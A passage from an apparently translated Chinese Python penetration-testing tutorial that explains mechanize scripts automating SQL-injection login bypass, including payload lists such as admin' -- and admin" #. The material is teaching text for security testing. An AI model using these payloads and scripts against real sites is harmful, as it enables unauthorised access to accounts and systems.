 您应该能够理解程序直到`for`循环。`pass_exp`变量表示基于逻辑的密码攻击列表。`user1`和`pass1`变量要求用户输入用户名和密码字段，如表单所示。`flag=0`变量使`while`循环继续，`p`变量初始化为`0`。在`while`循环内，即`br.select_form(nr=0)`语句，选择 HTML 表单一。实际上，这段代码是基于这样的假设，即当您转到登录屏幕时，它将在第一个 HTML 表单中包含登录用户名和密码字段。`br.form[user1] = 'admin'`语句存储用户名；实际上，我使用它使代码简单易懂。`br.form[pass1] = pass_exp[p]`语句显示将`pass_exp`列表的元素传递给`br.form[pass1]`。接下来，`for`循环部分将输出转换为字符串格式。我们如何知道密码是否已成功接受？您已经看到，成功登录到页面后，您将在页面上找到注销或退出选项。我在名为`list`的列表中存储了不同的注销和退出选项的组合。`data1 = data.lower()`语句将所有数据更改为小写。这将使在数据中查找注销或退出术语变得容易。现在，让我们看看代码：

```py
for l in list:
    for match in re.findall(l,data1):
      flag = 1
```

上述代码将在`data1`中找到`list`的任何值。如果找到匹配项，则`flag`变为`1`；这将打破`while`循环。接下来，`if flag ==1`语句将显示成功的尝试。让我们看看代码的下一行：

```py
elif(p+1 == len(pass_exp)):
    print "All exploits over "
    flag =1
```

上述代码显示，如果`pass_exp`列表的所有值都用完了，那么`while`循环将中断。

现在，让我们来检查以下屏幕截图中代码的输出：

![](img/28f33c91-bf6d-417a-b141-d36043aad1ab.png)

SQL 注入攻击

上述屏幕截图显示了代码的输出。这是一个非常基本的代码，用于澄清程序的逻辑。现在，我希望您修改代码，并制作一个新代码，其中您可以为用户名和密码提供列表值。

我们可以为包含`user_exp = ['admin" --', "admin' --", 'admin" #', "admin' #" ]`的用户名编写不同的代码（`sql_form7.py`），并在密码字段中填入任何内容。此列表背后的逻辑是，在管理员字符串`–`或`#`后进行注释，行的其余部分就在 SQL 语句中了：

```py
import mechanize
import re 
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
br.set_handle_redirect(True)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)

for form in br.forms():
  print form
form = raw_input("Enter the form name " )
br.select_form(name =form)
user_exp = ['admin" --', "admin' --",   'admin" #', "admin' #" ]

user1 = raw_input("Enter the Username ")
```